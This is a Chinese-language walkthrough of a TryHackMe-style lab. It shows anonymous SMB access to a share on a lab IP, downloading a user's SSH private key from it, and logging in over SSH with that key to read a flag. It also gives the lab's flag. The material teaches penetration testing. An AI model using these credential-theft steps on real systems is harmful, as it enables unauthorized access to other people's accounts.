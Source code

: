 尝试进行SMB匿名访问：

```bash
smbclient //10.10.92.190/profiles -U anonymous -p 445 #此处的"-p 445"可以省略
#登陆后可以输入 help 命令或者 ? 命令，以查看有哪些可用命令：如ls cd more dir get 等......
#如果想查看某个txt文件或者其他有内容的文件，请使用more命令（记得在文件名上添加英文双引号）
help
ls
more "Working From Home Information.txt" 
```

![image-20230316173637968](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20230316173637968.png)

![image-20230316173812801](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20230316173812801.png)

![image-20230316173928396](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20230316173928396.png)

> SMB匿名访问成功；SMB共享profiles属于 John Cactus 并且John Cactus所在的公司还为他配置了ssh服务。

尝试在SMB共享文件夹中寻找ssh密钥：

```bash
#查看.ssh文件夹：id_rsa文件为私钥、id_rsa.pub文件为公钥
#在id_rsa.pub公钥文件的内容末尾，可能会注明和密钥相关的ssh用户名称
#在SMB连接中，使用get命令下载文件
cd .ssh
ls
get id_rsa
```

![image-20230316174108778](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20230316174108778.png)

> 查找SMB共享中的 .ssh目录，最终发现了ssh密钥文件：id\_rsa。

在攻击机中使用密钥进行SSH登陆并查看smb.txt文件内容：

```bash
#下载密钥文件到本地后，更改密钥文件的权限为："600"--表示文件拥有者可进行读写操作。
chmod 600 id_rsa
#然后使用以下命令，通过ssh进行用户登录（指定使用私钥文件登录）
ssh -i id_rsa  cactus@10.10.92.190

#用户的账号名称可通过 enum4linux -a [IP] 枚举SMB信息获取（在上一小节中已成功获取该信息）
#在id_rsa.pub公钥文件的内容末尾，可能会注明和密钥相关的ssh用户名称（这需要我们通过SMB共享找到id_rsa.pub文件）
```

![image-20230316175708753](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20230316175708753.png)

![image-20230316175802542](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20230316175802542.png)

> 在攻击机上使用从目标机的SMB共享中获取的id\_rsa文件 进行ssh登录；最后找到的smb.txt文件的内容为：THM{smb\_is\_fun\_eh?} 。

![image-20230316103635711](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20230316103635711.png)

_参考：chmod命令使用教程 https://www.runoob.com/linux/linux-comm-chmod.html_
